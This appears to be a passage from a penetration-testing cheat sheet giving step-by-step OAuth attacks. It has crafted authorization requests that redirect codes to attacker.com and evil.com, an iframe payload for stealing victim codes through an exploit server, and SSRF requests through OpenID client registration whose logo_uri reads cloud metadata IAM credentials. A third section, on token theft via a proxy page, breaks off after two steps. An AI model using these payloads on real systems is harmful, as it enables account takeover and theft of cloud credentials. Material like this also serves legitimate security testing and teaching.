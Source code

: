 ````jsx
    1. login with social account then logout and try login again
    2. notice that you are redirected without any credentials
    3. notice "redirect_uri" vulnerable to open redirect
    ----------------------
    	GET /authorize?response_type=code&client_id=s6BhdRkqt3&state=9ad67f13
    	&redirect_uri=https://attacker.com/ HTTP/1.1
    	Host: oauth.lab
    ----------------
    	GET /authorize?response_type=code&client_id=s6BhdRkqt3&state=9ad67f13
    	&redirect_uri=https://facebook.com/?u=http://evil.com&h=e8989909s HTTP/1.1
    	Host: example.com
    --------------------------------
    4. notice there are /callback?code=auth-callback-code
    5. go to your exploit server and try:
    <iframe src="<https://TARGET-OAUTH-SERVER.net/auth?client_id=CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER.net&response_type=code&scope=openid%20profile%20email>"></iframe>
    
    6. steal the victim code and make request to
    <https://YOUR-Target/oauth-callback?code=STOLEN-CODE>
    
    # References 
    <https://hackerone.com/reports/665651> > Stealing Users OAuth Tokens through redirect_uri parameter
    ```
    
- **SSRF via OpenID dynamic client registration**
    
    ```jsx
    1. try browse <https://TARGET-OAUTH-SERVER.net/.well-known/openid-configuration>
    2. Notice where the client registration endpoint is located example:"/reg"
    3. In Burp Repeater, create a suitable POST request and retrieve registration data like "client_id"
    ----------------------------------------------
    POST /reg
    HTTP/1.1
    Host: TARGET-OAUTH-SERVER.net
    Content-Type: application/json
    { "redirect_uris" : [
     "<https://example.com>" ]
    }
    ---------------------------------------------
    4. Send the GET /client/CLIENT-ID/logo request to Burp Repeater
    5. Go back to "POST /reg" request,Add the "logo_uri" ,test if it's vulnerable to ssrf
    -------------------------------------------------
    POST /reg
    HTTP/1.1
    Host: TARGET-OAUTH-SERVER.net
    Content-Type: application/json
    { "redirect_uris" : [
     "<https://example.com>" ], "logo_uri" :
    "<https://BURP-COLLABORATOR-PAYLOAD>"
    }
    -------------------------------------------------
    6. Try Read meta data files like
       "logo_uri" : "<http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/>"
    ```
    
- **Stealing OAuth access tokens via a proxy page**
    
    ```jsx
    1. try browse <https://TARGET-OAUTH-SERVER.net/.well-known/openid-configuration>
    2. Notice where the client registration endpoint is located example:"/reg"
````